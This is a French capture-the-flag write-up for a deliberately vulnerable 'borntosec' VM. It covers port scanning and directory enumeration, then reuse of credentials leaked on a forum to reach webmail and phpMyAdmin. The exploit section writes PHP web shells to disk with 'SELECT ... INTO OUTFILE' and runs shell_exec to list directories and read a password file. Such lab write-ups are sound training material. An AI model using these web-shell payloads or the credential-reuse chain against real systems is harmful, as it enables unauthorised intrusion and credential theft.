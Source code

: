 # Writeup1

Prenons pour exemple que l'ip de la machine est 10.11.200.204.

### Get open port

Pour récupérer l'ip de la machine il faut lancer le script `./ip_machine [VM_name]`.<br>
Grâce à nmap:  `nmap  $(./ip_machine [VM_name])` nous pouvons voir les ports ouverts:

```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

### Installe DIRB and Get Info

Il faut installer toutes les dépendances avec notre script `./setup`.<br>
Puis nous pouvons faire.<br>
`dirb  https://$(./ip_machine [VM_name]) ./small.txt -w`.<br>
Du coup nous pouvons voir les accès intéressant:<br>

- `/forum`
- `/webmail`
- `/phpmyadmin`

`https://10.11.200.204/forum`:

Dans le forum, nous avons un post qui demande de l'aide sur sa connexion ssh, avec un mot de passe visible (à la place de l'utilisateur).<br>
L'auteur du message est : `lmezard`, et le mot de passe utilisé est : `!q\]Ej?*5K5cy*AJ`.<br>
Grâce à ces informations, nous pouvons utiliser ces logins pour ce connecter sur le forum, et voir son mail qui est: laurie@borntosec.net<br>
`https://10.11.200.204/webmail`:<br>
Grâce au mail, nous pouvons se connecter sur le webmail avec `laurie@borntosec.net` et `!q\]Ej?*5K5cy*AJ`.<br>
Nous pouvons voir un mail qui contient les identifiants BDD : `root` et `Fg-'kKXBj87E:aJ$`.

### Exploit PHPMyAdmin

`https://10.11.200.204/phpmyadmin`:<br>
Avec ces identifiants, nous pouvons nous connecter sur `PHPMYADMIN`.<br>
Après plusieurs recherche sur les différentes failles de sécurité de `PHPMYADMIN` nous avons pu trouver cet article: `http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2`.<br>
Apres plusieurs tests:<br>
`select "<?php $out = shell_exec('ls -la /'); echo '<pre>' . $out . '</pre>'; ?>" into outfile "/var/www/forum/templates_c/ls.php";`.<br>
On peut voir le résultat ici : https://10.11.200.204/forum/templates_c/ls.php.<br>
`select "<?php $out = shell_exec('ls -laR /home'); echo '<pre>' . $out . '</pre>'; ?>" into outfile "/var/www/forum/templates_c/home.php";`.<br>
On peut voir le résultat ici : https://10.11.200.204/forum/templates_c/home.php.<br>
Nous avons pu voir un fichier password dans `/home/LOOKATME`, nous allons pouvoir voir son contenu.<br>
`select "<?php $out = shell_exec('cat /home/LOOKATME/password'); echo '<pre>' . $out . '</pre>'; ?>" into outfile "/var/www/forum/templates_c/password.php";`.<br>
On peut voir le résultat ici : https://10.11.200.204/forum/templates_c/password.php.<br>
Ce qui donne comme résultat:  `lmezard:G!@M6f4Eatau{sF"`.
